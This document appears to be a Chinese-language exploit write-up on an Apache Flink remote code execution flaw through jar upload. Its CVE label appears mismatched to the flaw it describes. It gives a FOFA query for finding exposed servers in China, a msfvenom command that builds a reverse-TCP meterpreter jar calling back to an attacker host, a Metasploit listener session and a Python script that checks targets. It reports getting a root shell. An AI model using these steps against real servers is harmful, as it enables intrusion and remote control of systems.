

# Apache Flink 小于1.9.1远程代码执行 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.

## 漏洞影响

- Apache Flink  <= 1.9.1(最新版本)

## FOFA

- app="Apache-Flink" && country="CN"

## 漏洞复现

打开一个使用 Apache Flink 的网站，打开后页面为这样子


点击查看文件上传页面


打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件


监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```


点击下 submit


反弹回来一个root 权限shell


## 漏洞POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Flink <= 1.9.1          \033[0m')
    print('+  \033[36m使用格式: python3 Apache_Flink.py         \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jars/upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "Unable to load requested file /jars/upload." in response.text:
            print("\033[32m[o] 可能存在 Apache Flink <= 1.9.1 远程代码执行漏洞\n\033[0m")
        else:
            print("\033[31m[x] 目标Url 文件上传模块无法使用\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

